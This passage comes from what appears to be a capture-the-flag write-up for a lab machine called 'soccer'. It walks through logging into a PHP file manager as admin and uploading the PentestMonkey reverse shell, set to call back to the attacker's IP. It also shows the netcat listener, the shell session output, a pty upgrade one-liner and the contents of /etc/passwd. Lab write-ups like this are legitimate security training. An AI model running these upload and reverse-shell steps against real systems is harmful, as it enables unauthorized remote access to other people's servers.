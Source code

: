 Lets try them all out, maybe one of them will work?

Bingo! we are in as the admin account:

![Untitled1.png]({{site.baseurl}}/Images/Untitled1.png)

So we have a php-based file manager with upload capabilities 🤔 Think we know where this is going…

Poking around trying to upload a simple `info.php` file, we find that we only have permissions to upload to the `/tiny/uploads/` directory. Files that are uploaded also appear to be deleted after a couple of minutes. 

Lets try a php reverse shell. PentestMonkey always does good things:

```jsx
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

Change the necessary lines of the php file to match our local IP and the port we want to listen on:

```jsx
$VERSION = "1.0";
$ip = '10.10.16.2';  // CHANGE THIS
$port = 81;       // CHANGE THIS
$chunk_size = 1400;
```

and set up a listener:

```jsx
nc -nlvp 81
```

All that is left to do is upload the php file and browse to it. We get a shell!

```jsx
nc -nlvp 81               
listening on [any] 81 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.194] 59696
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 04:38:51 up 40 min,  0 users,  load average: 0.00, 0.01, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

We Take the usual steps to upgrade the shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'` and continue poling around the file system. The `/etc/passwd` file only contains a single user:

```jsx
player:x:1001:1001::/home/player:/bin/bash
mysql:x:113:121:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:997:997::/var/log/laurel:/bin/false
```

Looks like our next steps are to try to elevate to the user `player` . We also notice that there is a `mysql` user, we didn’t see it listening in the nmap scan, so it is likely that MySQL is running locally but not exposed externally.

